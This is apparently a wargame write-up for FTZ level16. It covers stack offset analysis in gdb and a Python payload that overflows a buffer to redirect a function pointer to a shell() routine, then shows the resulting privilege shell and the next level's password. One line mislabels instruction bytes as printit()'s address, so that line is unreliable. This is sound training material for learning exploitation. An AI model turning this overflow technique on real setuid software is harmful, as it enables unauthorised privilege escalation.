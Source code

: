 # Level16

## This level's goal
- Function pointer modulation

***

```
[level16@ftz level16]$ ls -l
-rwsr-x---    1 level17  level16     14017 Mar  8  2003 attackme
-rw-r-----    1 root     level16       235 Mar  8  2003 hint

[level16@ftz level16]$ cat hint

#include <stdio.h>

void shell() {
  setreuid(3097,3097);
  system("/bin/sh");
}

void printit() {
  printf("Hello there!\n");
}

main()
{ 
  int crap;
  void (*call)()=printit;
  char buf[20];
  fgets(buf,48,stdin);
  call();
}
```

```
[level16@ftz tmp]$ cat distance.c
#include <stdio.h>

void shell() {
  setreuid(3097,3097);
  system("/bin/sh");
}

void printit() {
  printf("Hello there!\n");
}

main()
{
  int crap;
  void (*call)()=printit;
  char buf[20];
  fgets(buf,48,stdin);
  call();

  printf("Input is : %s\n &buf  : %p\n &call : %p \n &crap : %p\n", buf, buf, &call, &crap);
}

[level16@ftz tmp]$ gcc distance.c -o distance
[level16@ftz tmp]$ gdb -q distance
(gdb) disass main
0x08048434 <main+3>:    sub    $0x38,%esp

[level16@ftz tmp]$ ./distance
AAAA
Hello there!
Input is : AAAA

&buf  : 0xbffff020
&call : 0xbffff048
&crap : 0xbffff04c
```

0x38 means 56bytes, buf(20bytes) + dummy(20bytes) + \*printit(4bytes,0xbffff048) + crap(4bytes,0xbffff04c) + dummy(8bytes) + SPF(4bytes) + RET(4bytes).

```
[level16@ftz tmp]$ gdb -q distance
(gdb) disass main
0x08048462 <main+49>:   call   *%eax

(gdb) break *0x08048462
(gdb) run
Starting program: /home/level16/tmp/distance
AAAA

(gdb) x/16x $esp
0xbfffe1b0:     0x41414141      0x0000000a      0x42015481      0x0804836a
0xbfffe1c0:     0x42130ef8      0x42130a14      0xbfffe1d8      0x080482d9
0xbfffe1d0:     0x42130a14      0x4000c660      0x08048419      0x08048492
0xbfffe1e0:     0x42130a14      0x40015360      0xbfffe208      0x42015574

(gdb) x/s 0xbfffe1b0
0xbfffe1b0:      "AAAA\n"

(gdb) x/x 0xbfffe1d8
0xbfffe1d8:     0x08048419

(gdb) x/x 0xbfffe1dc
0xbfffe1dc:     0x08048492

(gdb) x/x 0x08048419
0x8048419 <printit>:    0x83e58955

(gdb) disas printit
0x08048419 <printit+0>: push   %ebp

(gdb) disas shell
0x080483ec <shell+0>:   push   %ebp
```

As above, I could see that the printit()'s address is 0x83e58955, and shell() is 0x080483ec.

```
[level16@ftz level16]$ gdb -q attackme
(gdb) disass main
0x0804853f <main+39>:   call   *%eax

(gdb) x/x 0x0804853f
0x804853f <main+39>:    0xc3c9d0ff

(gdb) disass printit
0x08048500 <printit+0>: push   %ebp

(gdb) disass shell
0x080484d0 <shell+0>:   push   %ebp

```

The point is that you need change to \*printit()'s address to shell()'s adress.

The attack code will be 40 bytes dummy strings + shell adress(0x080484d0).

```
[level16@ftz level16]$ (python -c 'print "A"*40+"\xd0\x84\x04\x08"'; cat) | ./attackme

id
uid=3097(level17) gid=3096(level16) groups=3096(level16)

my-pass
Level17 Password is "king poetic".
```


